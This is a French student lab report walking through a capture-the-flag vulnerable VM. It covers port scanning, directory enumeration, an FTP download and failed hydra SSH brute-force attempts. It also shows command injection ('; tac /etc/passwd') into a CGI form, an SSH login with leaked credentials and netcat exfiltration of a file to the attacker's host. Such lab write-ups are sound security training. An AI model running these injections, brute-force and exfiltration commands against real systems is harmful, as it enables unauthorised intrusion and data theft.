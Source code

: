 # Rapport du TP1

#### _(Si les addresses ip peuvent varier dans les commandes et les captures d'écran entre 10.0.2.15 et 10.0.2.5, c'est parce que j'ai réalisé le tp sur 2 jours différents et en redémarrant la vm, l'ip n'était plus la même)_

Pour scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`
![1731071846729](image/rapport/1731071846729.png)
Ca nous ermet de trouver l'ip de la machine cible : 10.0.2.15

on test la connection entre les 2 machines
`ping 10.0.2.15`
![1731070918309](image/rapport/1731070918309.png)

on commence par chercher tous les ports ouverts
`nmap -p- 10.0.2.15`
![1731070574383](image/rapport/1731070574383.png)

## Port 21

On peut analyser plus en détail le port 21. L'option "-sC" lance les scripts par défaut qui permettent de trouver des informations supplémentaires. L'option "-sV" permet de détecter les versions de chaque service utilisé. Enfin "-A" permet defaire un scan agresif pour détecter un maximum d'informations (OS et architectures...)

`nmap -sC -sV -A -p 21 10.0.2.15`
![1731075008382](image/rapport/1731075008382.png)
on voit ici qu'il y a un FLAG.txt

on peut se connecter en ftp (avec l'identifiant et le mdp 'ftp')
`ftp 10.0.2.15`
et en faisant "ls" on retrouve bien notre FLAG.txt
![1731595575888](image/rapport-tp1/1731595575888.png)

on peut mintenant rapatrier sur la machine hote le fichier
`get FLAG.txt`
![1731074484434](image/rapport/1731074484434.png)

puis sur la machine hote, on peut lire le fichier, on a trouvé un **FLAG_1** :
`cat FLAG.txt`
![1731074552067](image/rapport/1731074552067.png)

## Port 22

On peut analyser plus en détail le port 22
`nmap -sC -sV -A -p 22 10.0.2.15`
![1731075194425](image/rapport/1731075194425.png)

On voit qu'il y a du ssh, donc on va faire une attaque brut force en utilisant hydra
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.15`
![1731075451542](image/rapport/1731075451542.png)
On constate que ça échoue.

## Port 80

`nmap -sC -sV -A -p 80 10.0.2.15`
![1731075665644](image/rapport/1731075665644.png)
On voit que c'est du http et que le port 80 correspond au port par défaut du serveur web.

Il s'agit d'un serveur web, on peut se rendre à l'url `10.0.2.15`
On tombe sur une page web avec rien de spécial dessus.
![1731598519413](image/rapport-tp1/1731598519413.png)
En inspectant le code source de la page je ne vois rien non plus.

On utilise donc l'outil nikto (port 80 par défaut donc pas besoin d'options)
`nikto -h 10.0.2.15`
![1731075895889](image/rapport/1731075895889.png)
Avec dirb on peut voir les sous dossiers cachés (port 80 par défaut donc pas besoin d'options)
`dirb http://10.0.2.15 /usr/share/wordlists/dirb/common.txt`
![1731076851337](image/rapport/1731076851337.png)

On voit qu'il y a un dossier `/passwords`
Je me rend dans le navigateurs et j'essaie d'accéder à `http://10.0.2.15/passwords` et je trouve un **FLAG_2**
![1731076257587](image/rapport/1731076257587.png)
![1731076374431](image/rapport/1731076374431.png)

A la meme racine il y a aussi un fichier passwords.html donc je m'y rend `http://10.0.2.15/passwords.html`
![1731077959191](image/rapport/1731077959191.png)
En inspectant la page, on trouve un mot de passe qui pourrait servir pour la suite : "winter"

En effectuant la commande `dirb http://10.0.2.15 /usr/share/wordlists/dirb/common.txt`
![1731076851337](image/rapport/1731076851337.png)
On observe aussi un fichier `/robots.txt`

`curl 10.0.2.15/robots.txt`
![1731077800614](image/rapport/1731077800614.png)

On se rend à l'Url `10.0.2.15/cgi-bin/root_shell.cgi`
![1731078285579](image/rapport/1731078285579.png)
Il n'y a pas grand chose à voir ici

On esssaye l'Url `10.0.2.15/cgi-bin/tracertool.cgi`
![1731078349122](image/rapport/1731078349122.png)
On tombe sur un outil qui demande d'entrer une Ip

On remarque que l'on peut taper des commandes dans la zone de texte en ajoutant ";" avant
On essaye d'accéder au fichier contenant les information des utilisateurs du système.
`; cat /etc/passwd`

L'interface nous affiche un chat retourné. Avec un peu de réflexion on comprend que c'est le "cat" qui est à l'envers, donc "tac"
`; tac /etc/passwd`
![1731598950870](image/rapport-tp1/1731598950870.png)

L'interface affiche e nombreuses information, et on remarque le mot clé "Summer" sur la 2e ligne, contraire de "winter" que l'on a repéré avant, ainsi que "Morty" et "RickSanchez", qui font référence à la page web de l'adresse `10.0.2.15`.

On peut se connecter à l'utilisateur Summer en ssh, et avec le mot de passe "winter".
`ssh Summer@10.0.2.5 -p 22222`
![1731599330907](image/rapport-tp1/1731599330907.png)

En tapant la commande `cat FLAG.txt`, on retrouve la meme image de chat à l'envers. `tac FLAG.txt` nous permet de voir le vrai **FLAG_3**.
![1731599482546](image/rapport-tp1/1731599482546.png)

En continuant à chercher, je me déplace à la racine du dossier, où il y a 3 utilisateurs (Morty, RickSanchez, Summer)
On peut utiliser la commande find pour avoir une idée de l'arboressance des fichiers.
![1731602059562](image/rapport-tp1/1731602059562.png)

On trouve un fichier NotAFlage.txt suspect. En l'ouvrant on s'aperçoit que ce n'est vraiment pas un Flag.

On peut aussi voir un fichier image nommé "Safe_Password.jpg". Comme on est connecté en ssh il est compliqué de réaliser des interractions dessus. En cherchant un peu j'ai vu qu'il était possible d'ouvrir une connexion entre la machine hote et la cible avec netcat afin de rapatrier le fichier sur la machine hote.

En tapant la commande suivante sur ma machine hote, j'ouvre un connexion réseau et je dis que je vais appeller le fichier que je vais recevoir "fileMDP.jpg" : `nc -l -p 12345 > fileMDP.jpg`

Depuis ma machine cible, j'envoie le fichier sur l'hote sur le port 12345 `cat Morty/Safe_Password.jpg | nc 10.0.2.4 12345`

![1731601298908](image/rapport-tp1/1731601298908.png)
L'hote a bien récupérer le fichier.

On utilise la commande `strings fileMDP.jpg` pour déchiffrer toutes les chaines de caractère lisible dans le fichier binaire de l'image. Cette commande renvoie plein de lignes de caractère, dont une qui retient mon attention :
![1731601476011](image/rapport-tp1/1731601476011.png)

Sur la machine cible en ssh, je peux unzip l'archive /home/Morty/journal.txt.zip à l'aide du mot de passe que j'ai obtenu.
J'ai une erreur "permission denied" car je n'ai pas les droits d'unzip l'archive ici. Je vais donc la copier dans le répertoire tmp.
`cp /Morty/journal.txt.zip /tmp/`
puis dans /tmp je l'unzip
`unzip journal.txt.zip`

en lisant le fichier je trouve un **FLAG_4**
![1731601949819](image/rapport-tp1/1731601949819.png)

## Port 9090

`nmap -sC -sV -A -p 9090 10.0.2.15`
![1731076487206](image/rapport/1731076487206.png)

On voit que c'est encore un serveur web, donc on va utiliser à nouveau nikto et dirb

Je ne trouve rien de spécial avec les commandes. Il s'agit d'un serveur web donc j'essaie de simplement tapper l'url `http://10.0.2.15:9090`
![1731078655553](image/rapport/1731078655553.png)
On tombe sur une page web contenant un **FLAG_5**

## Port 13337

`nmap -sC -sV -A -p 13337 10.0.2.15`
![1731079070435](image/rapport/1731079070435.png)

On a pas d'info (ssh, ftp, web) donc on peut utiliser netcat pour établir une connexion réseau et essayer de trouver des indices.
`nc 10.0.2.15 13337`

![1731078939699](image/rapport/1731078939699.png)
On a trouvé un **FLAG_6**

## Port 22222

`nmap -sC -sV -A -p 22222 10.0.2.15`
![1731079545295](image/rapport/1731079545295.png)
On constate que c'est du ssh donc on va faire une attaque brut force en utilisant hydra

`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.15`
![1731602532478](image/rapport-tp1/1731602532478.png)
Malheureusement je n'ai rien trouvé avec cette attaque brut force.

## Port 60000

`nmap -sC -sV -A -p 60000 10.0.2.5`
![1731596005710](image/rapport-tp1/1731596005710.png)
On a pas vraiment d'informations donc on va utiliser netcat pour établir une connexion.

`nc 10.0.2.5 60000`
![1731597495624](image/rapport-tp1/1731597495624.png)
On trouve bien un fichier **FLAG_7**
